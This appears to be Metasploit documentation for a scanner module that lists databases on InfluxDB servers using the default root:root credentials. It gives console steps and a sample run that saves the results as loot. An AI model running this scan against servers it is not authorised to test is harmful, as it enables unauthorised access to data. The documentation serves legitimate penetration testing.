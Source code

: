 This module enumerates databases on InfluxDB using the REST API using the default authentication of root:root.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/influxdb_enum```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/influxdb_enum
msf auxiliary(scanner/http/influxdb_enum) > set RHOST 172.25.65.20
RHOST => 172.25.65.20
msf auxiliary(scanner/http/influxdb_enum) > set VERBOSE true
VERBOSE => true
msf auxiliary(scanner/http/influxdb_enum) > run

[+] 172.25.65.20:8086 - Influx Version: 1.5.1
[+] 172.25.65.20:8086 - Influx DB Found:

{
  "results": [
    {
      "statement_id": 0,
      "series": [
        {
          "name": "databases",
          "columns": [
            "name"
          ],
          "values": [
            [
              "_internal"
            ]
          ]
        }
      ]
    }
  ]
}

[+] File saved in: /Users/unix/.msf4/loot/20180423050119_default_172.25.65.20_influxdb.enum_623871.txt
[*] Auxiliary module execution completed
```

